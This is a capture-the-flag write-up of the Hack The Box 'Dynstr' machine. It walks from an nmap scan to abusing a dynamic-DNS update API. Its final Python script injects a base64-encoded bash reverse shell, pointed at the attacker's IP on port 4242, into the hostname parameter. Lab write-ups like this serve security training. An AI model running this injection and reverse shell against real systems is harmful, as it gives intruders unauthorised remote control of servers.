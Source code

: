 ```yaml
---
title: Dynstr
layout: post
author: Bit Criminals Team
date: 2021-06-24 13:35:00 +0530
type: Pentesting
difficulty: Hard
prompt: https://app.hackthebox.eu/machines/dynstr
---
```


So first of all we run an nmap scan and get the open ports.

```
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```
We visit port 80 in our browser and discover the following information:

![](/images/MaskdMafia/dynstr.md)

We referred to these web-pages (documentation was scarce):

[Remote Access API](https://help.dyn.com/remote-access-api/guidelines/)
[Dnsomatic docs](https://www.dnsomatic.com/docs/api)

However, when sending a valid request via browser,we always got the badauth error. So we tried to do it via a script:

```py
import requests, socket

username = ""
password = ""
hostname = "" # your domain name hosted in no-ip.com

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update")

    #if r.status_code != requests.codes.ok:
    print(r.content)
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns("dynadns","sndanyd")
```

And we finally saw this message on running the script:

```
good 10.10.14.123
```
On further enumeration we saw that hostname parameter was had command injection so we tried to take advantage of it by sending a reverse shell in base64 and listening on another terminal with netcat. Here's our script for that:

```py
import requests, socket

username = "dynadns"
password = "sndanyd"

'''
    dnsalias.htb
    dynamicdns.htb
    no-ip.htb
'''
myip="10.10.14.124"
hostname = "aa.dnsalias.htb" # your domain name hosted in no-ip.com
ip="10.129.11.122"

# Gets the current public IP of the host machine.
#myip = requests.get('http://api.ipify.org').text

# Gets the existing dns ip pointing to the hostname.
#old_ip = socket.gethostbyname(hostname)

# Noip API - dynamic DNS update.
# https://www.noip.com/integrate/request.
def update_dns(username,password):
    r = requests.get(f"http://{username}:{password}@dyna.htb/nic/update?hostname=`echo YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjEyMy80MjQyIDwmMQ==| base64 -d | bash`\"{hostname}&my={ip}")

    #if r.status_code != requests.codes.ok:
    print(r.content.decode())
    #pass

# Update only when ip is different.
#if myip != old_ip:
    #update_dns(username, password )
#pass

update_dns(username,password)
```
And we get the reverse shell in our terminal !!